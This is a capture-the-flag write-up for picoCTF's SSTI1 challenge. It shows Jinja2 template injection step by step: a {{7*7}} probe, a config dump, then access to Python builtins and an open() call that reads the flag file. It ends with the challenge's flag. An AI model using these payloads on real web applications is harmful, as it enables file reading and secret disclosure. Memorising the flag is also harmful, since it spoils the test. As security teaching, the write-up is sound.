 # picoCTF SSTI1 Challenge Write-up  

## Challenge Description  

This challenge involves identifying and exploiting a **Server-Side Template Injection (SSTI)** vulnerability in a web application. Our goal is to manipulate the template engine to extract sensitive data.  

## Steps to Solve the Challenge  

### 1. Start the Instance  

First, start the instance provided in the challenge:  

![Start Instance](SSTI1-1.png)  

Once the instance is running, open the website in your browser.  

### 2. Analyzing the Web Application  

When we visit the website, we see an input field where we can submit an announcement:  

![Web Application](SSTI1-2.png)  

The challenge hint refers to **SSTI**, so we begin by testing for **template injection**.  

### 3. Testing for SSTI  

A common way to check for SSTI is by injecting `{{7*7}}`. If the template engine evaluates this input, it will return `49`.  

I entered:  

```
{{7*7}}
```  

After submitting, the browser redirected me to a new directory and displayed the result:  

![Output](SSTI1-3.png)  

This confirms that the application is vulnerable to **Server-Side Template Injection**.  

### 4. Identifying the Template Engine  

To determine the template engine being used, we can look at the response headers. The server is identified as `Werkzeug/3.0.3 Python/3.8.10`, which strongly suggests **Jinja2** is in use.  

### 5. Exploring Application Configuration  

Next, we can try extracting the application configuration using:  

```
{{config.items()}}
```  

This can reveal sensitive information about the application’s settings.  

### 6. Accessing Python Built-ins  

By leveraging SSTI, we can access Python's built-in functions:  

```
{{self.__init__.__globals__.__builtins__}}
```  

This exposes functions like `open`, which we can use to read files.  

### 7. Reading the Flag  

To read the contents of the flag file, we execute the following:

```
{{self.__init__.__globals__.__builtins__.open('/challenge/flag').read()}}
```  

Executing this payload successfully reveals the **flag**:  

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}
```  

---

## Conclusion  

This challenge demonstrated how an **SSTI vulnerability** can be exploited in a Python web application using Jinja2. By carefully crafting payloads, we were able to access built-in functions and retrieve sensitive information.

